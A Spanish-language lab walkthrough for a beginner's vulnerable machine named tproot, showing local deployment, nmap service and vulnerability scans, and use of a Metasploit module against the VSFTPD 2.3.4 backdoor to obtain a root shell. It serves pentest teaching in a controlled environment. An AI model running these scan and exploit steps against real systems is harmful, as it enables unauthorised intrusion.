
<h1>Tproot</h1>
  



## ❓ ¿Qué es tproot?

tproot es una máquina vulnerable orrada en la enumeración de servicios y la explotación de vulnerabilidades conocidas en sistemas Linux. Mediante el análisis de servicios expuestos como FTP y HTTP, el atacante podrá identificar software vulnerable y obtener acceso remoto al sistema.

La máquina destaca por el uso de VSFTPD 2.3.4, que contiene una puerta trasera explotable, permitiendo conseguir una shell con privilegios root de forma directa. Está pensada para quienes se inician en el pentesting y desean comprender la importancia de la enumeración y el análisis de versiones de servicios.

> [!NOTE]
>
>Puede descargar la máquina a través del **[enlace mega](https://mega.nz/file/ORUEzLia#WQgvveTv3kAnXBs6UyRShd1JomGNg6Sk7DSa_fJwD7k)**

## 🔝 Despliegue tproot

Al descargar la máquina, es necesario descompromirlo para poder encontrar los archivos necesarios para poder desplegarla, para ello, utilizaremos el comando.

**unzip tproot.zip.**



Obtendremos dos ficheros:
- **Auto_deploy.sh:** Script Bash para desplegar nuestra máquina localmente.
- **tproot.tar:** Máquina vulnerable contenizada.

Para desplegar el servicio será necesario carle permisos de ejecución a auto_deploy.sh, ya que por defecto tiene permisos 644. Para ello, usaremos el comando:

 **chmod +x auto_deploy.sh**

 Una vez ejecutado, se utilizará el comando **./auto_deploy.sh vacaciones.tar** para lanzar la máquina



## 🔎 Fase de Descubrimiento 
Ahora, se abrirá una nueva terminal para empezar a realizar el descubrimiento del sistema. Cómo sabemos la dirección IP de la máquina vulnerable **(172.17.0.2)**, comenzaremos realizando un escaneo de red nmap. 
En esta ocación, se usará el comando **nmap -sC -sV --min-rate 5000 172.17.0.2**

| Argumento | Significado |
|---|---|
| -sC | Ejecuta los scripts para comprobaciones comunes |
| -sV | Detección de versiones de servicios |
| --min-rate 5000 | Envía al  5000 paquetes por segundo (aumenta velocidad; puede causar pérdida o detección) |
| 172.17.0.2 | Dirección IP del objetivo a escanear |



> [!NOTE]
>
>Se ha realizado un escaneo agresivo debido a que se está realizando en un entorno controlado y no es importante el ser detectado. Si se busca hacer el mínimo ruido posible será necesario utilizar el argumento **-sS** se usa para no ser detectado fácilmente, porque no completa la conexión TCP. Además, **no se usará --min-rate.**

En este caso, se ha encontrado dos servicios activos:
- **FTP (Puerto: 21):** Intercambios de ficheros. Si se accede con credenciales **anonymous** / **anonymous**, se recibe un error del servidor **500**
- **HTTP (Puerto 80):** Servidor Web.

A continuación, se procede a visitar el sitio web utilizando el protocolo http, que se encuentra la página de apache2



No se encuentra, ningún dato relevante para nuestra investigación, se procede a utilizar nmap para identificar vulnerabilidades. **nmap --min-rate 5000 --script=vuln 172.17.0.2**

| Argumento | Significado |
|---|---|
| --min-rate 5000 | Envía al menos 5000 paquetes por segundo |
| --script=vuln | Ejecuta scripts de detección de vulnerabilidades |
| 172.17.0.2 | Dirección IP del objetivo a escanear |

El resultado que se obtiene es que el servicio ftp tiene una vulnerabilidad explotable denominada backdoor, esto significa que el servicio VSFTPD 2.3.4 contiene una puerta trasera que permite ejecutar comandos remotos. Un atacante puede conectarse al servicio FTP y, aprovechando esta vulnerabilidad, obtener acceso de shell al sistema sin necesidad de credenciales válidas, lo que facilita el acceso inicial a la máquina objetivo.



Para buscar algún exploit para ftp, se utilizará metaexploit ejecutando **msfconsole** en la terminal. Posteriormente, con search vsftpd 2.3.4 encontraremos el exploit que se requiere.



Este trata de acceso por puerta trasera

## 🖥️ Acceso al servidor

Para usar el exploit que se ha encontrado, es necesario utilizar el comando **use 0**, ya que cuenta con el id 0.

En metaexploit, se requiere configurar algunas opciones para poder ejecutar nuestro exploit, para ello se usa el comando **show options**

| Opción | Valor | Descripción |
|---|---|---|
| RHOSTS | 172.17.0.2 | Dirección IP de la máquina víctima |
| RPORT | 21 | Puerto de la máquina víctima |
| CHOST | 10.0.2.15 | Dirección IP de nuestra máquina (atacante) |
| CPORT | 5000 | Puerto de escucha para la conexión inversa |



Se requiere introducir en RHOSTS la dirección ip de la máquina victima usando el comando **set RHOSTS 172.17.0.2**



Será necesario introducir la dirección de nuestra máquina utilizando el comando **set CHOST 10.0.2.15** y un puerto que se utilizará de escucha usando el comando **set CPORT 5000**.



Por último, en metaexpoloit, se ejecutará el comando **exploit** para iniciar el ataque

Cuando aparezca el aviso que una shell se ha abierto, al ejecutar el comando **whoami**, se tendrá acceso root


## 🧪 Post-Laboratorio
Una vez finalizada la máquina, en la terminal donde se tiene desplegada la máquina vulnerable se utilizará la combinación de teclas **Control + C** para eliminarla.



##   ¡Hola! Me llamo Saúl Ruiz 
### Estudiante en Ciberseguridad

Soy estudiante de Administración de Sistemas Informáticos en Red con pasión por la ciberseguridad y el mundo de la informática. Desde pequeño disfruto explorando tecnología y aprendiendo de manera autónoma. Además, combino mis estudios con la creación de contenido y recursos educativos sobre informática a través de mi proyecto personal <b>[@PlaSysX](https://linktr.ee/PlaSysx)</b>

Si quieres aprender informática, mejorar tus habilidades, descubrir trucos y soluciones prácticas, y formar parte de nuestra comunidad, puedes seguirnos en PlaSysX.

 

